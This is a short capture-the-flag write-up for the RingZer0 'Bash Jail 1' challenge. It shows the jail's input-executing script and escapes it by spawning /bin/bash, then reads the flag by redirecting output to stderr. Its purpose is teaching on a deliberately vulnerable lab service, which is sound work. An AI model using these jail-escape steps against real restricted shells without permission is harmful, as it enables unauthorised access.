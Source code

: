 # **Bash Jail 1**

![](https://i.imgur.com/hBRN91L.png)

```shell=
ubuntu@ubuntu-virtual-machine:~$ ssh level1@challenges.ringzer0team.com -p 10218 
The authenticity of host '[challenges.ringzer0team.com]:10218 ([78.109.87.50]:10218)' can't be established.
ECDSA key fingerprint is SHA256:gJjkCupg596odLvqiT3qRhgElHttbotOA6m3sn3BDEY.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '[challenges.ringzer0team.com]:10218,[78.109.87.50]:10218' (ECDSA) to the list of known hosts.
level1@challenges.ringzer0team.com's password: 

RingZer0 Team Online CTF

BASH Jail Level 1:
Current user is uid=1000(level1) gid=1000(level1) groups=1000(level1)

Flag is located at /home/level1/flag.txt

Challenge bash code:
-----------------------------

while :
do
	echo "Your input:"
	read input
	output=`$input`
done 

-----------------------------
Your input:
```

```shell=
Your input:
ls
Your input:
cat flag.txt
Your input:
```

No feedback(still in process), let's execute bash to try to get some feedback.

```shell=
Your input:
/bin/bash
level1@lxc17-bash-jail:~$ 
```

We now get rid of process, let's use bash to cat the flag.

```shell=
level1@lxc17-bash-jail:~$ ls 1>&2
flag.txt  prompt.sh
level1@lxc17-bash-jail:~$ cat flag.txt 1>&2
FLAG-XXXXXX
```

`1>&2` means redirect stdout to stderr, it outputs the message to stderr.

